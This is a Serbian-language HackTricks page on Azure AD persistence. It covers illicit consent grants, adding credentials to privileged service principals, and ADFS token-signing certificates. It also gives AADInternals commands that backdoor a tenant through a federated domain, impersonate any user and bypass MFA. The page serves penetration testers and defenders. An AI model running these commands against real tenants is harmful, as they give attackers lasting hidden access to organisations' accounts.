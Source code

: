# Az - Persistencija

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Nezakonito odobrenje

Podrazumevano, svaki korisnik može registrovati aplikaciju u Azure AD. Tako možete registrovati aplikaciju (samo za ciljni tenant) koja zahteva visoke dozvole sa odobrenjem administratora (odobrite je ako ste administrator) - kao što je slanje maila u ime korisnika, upravljanje rolama itd. Ovo će nam omogućiti da **izvršimo phishing napade** koji bi bili veoma **plodonosni** u slučaju uspeha.

Štaviše, mogli biste takođe prihvatiti tu aplikaciju sa svojim korisnikom kao način da zadržite pristup.

### Aplikacije i servisni principi

Sa privilegijama Administratora aplikacija, GA ili prilagođenom ulogom sa microsoft.directory/applications/credentials/update dozvolama, možemo dodati kredencijale (tajni ključ ili sertifikat) postojećoj aplikaciji.

Moguće je **ciljati aplikaciju sa visokim dozvolama** ili **dodati novu aplikaciju** sa visokim dozvolama.

Zanimljiva uloga koju bi trebalo dodati aplikaciji bila bi **Uloga administratora privilegovanih autentifikacija** jer omogućava **resetovanje lozinke** Globalnim Administratorima.

Ova tehnika takođe omogućava **obići MFA**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Za autentifikaciju zasnovanu na sertifikatima

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Federacija - Sertifikat za potpisivanje tokena

Sa **DA privilegijama** na lokalnom AD-u, moguće je kreirati i uvesti **nove sertifikate za potpisivanje tokena** i **sertifikate za dekriptovanje tokena** koji imaju veoma dugu validnost. Ovo će nam omogućiti da **se prijavimo kao bilo koji korisnik** čiji ImuutableID poznajemo.

**Pokrenite** sledeću komandu kao **DA na ADFS serveru(ima)** da kreirate nove sertifikate (podrazumevani lozinka 'AADInternals'), dodajte ih u ADFS, onemogućite automatsko obnavljanje i restartujte servis:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Zatim, ažurirajte informacije o sertifikatu sa Azure AD:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federation - Trusted Domain

Sa GA privilegijama na tenant-u, moguće je **dodati novu domenu** (mora biti verifikovana), konfigurisati njen tip autentifikacije na Federated i konfigurisati domenu da **veruje određenom sertifikatu** (any.sts u donjoj komandi) i izdavaču:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## References

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

